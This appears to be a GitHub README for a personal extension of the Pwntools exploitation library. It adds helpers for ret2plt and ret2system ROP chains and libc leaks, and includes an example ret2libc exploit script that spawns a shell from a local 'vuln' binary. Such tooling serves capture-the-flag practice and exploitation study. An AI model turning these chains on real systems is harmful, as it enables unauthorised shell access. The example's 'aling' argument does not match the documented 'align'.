 # Fast-Pwn
Some code I have added to my local Pwntools to speed up things.

Functions Added - 

- ret2system() - creates a return to system rop chain, accepts two arguments align and bin_sh
- ret2plt() - creates a return to plt rop chain, accepts two arguments leak and ret
- recv_libc_leak() - receive 6 bytes on amd64 and 4 bytes on i386, then unpack tye address and substract the offset and return libc base address, accepts one argument offset
- sendpayload() - accepts 2 arguments offset and payload and send flat{offset:payload}
- find_bin_sh() - return /bin/sh address 
- section_addr() - return the address of section like(.bss,.data), accepts 2 arguments name and offset

Quick Fixes -

- libc() - I like to use elf.libc but it is broken so i fixed it but still works only on 64 bit, requirement - `pip3 install pylddwrap`

Example - 

```python
from pwn import *

elf = context.binary = ELF("vuln")
rop = ROP(elf)
libc = elf.libc
offset = 136

io = process()
io.clean()

rop.ret2plt(leak=elf.got.puts, ret=elf.sym.main)
io.sendpayload(offset=offset, payload=rop.chain())

io.recvline()
libc.address = io.recv_libc_leak(offset=libc.sym.puts)

rop1 = ROP(libc)
rop1.ret2system(aling=True)
io.sendpayload(offset=offset, payload=rop1.chain())
io.interactive()
```

# Changes Made
### Added Code to -

[pwnlib/rop/rop.py](pwnlib/rop/rop.py) - Added 2 functions ret2plt and ret2system from line 1552 to 1561 \
[pwnlib/elf/elf.py](pwnlib/elf/elf.py) - Added 2 functions section_addr and find_bin_sh from line 1547 to 1570, Edited libc function from line 716 to 723 \
[pwnlib/tubes/tube.py](pwnlib/tubes/tube.py) - Added 1 function sendpayload from line 863 to 872, Added 1 function recv_libc_leak from line 753 to 763

### Created New File

[pwnlib/rop/ret2system.py](pwnlib/rop/ret2system.py) \
[pwnlib/rop/ret2plt.py](pwnlib/rop/ret2plt.py)

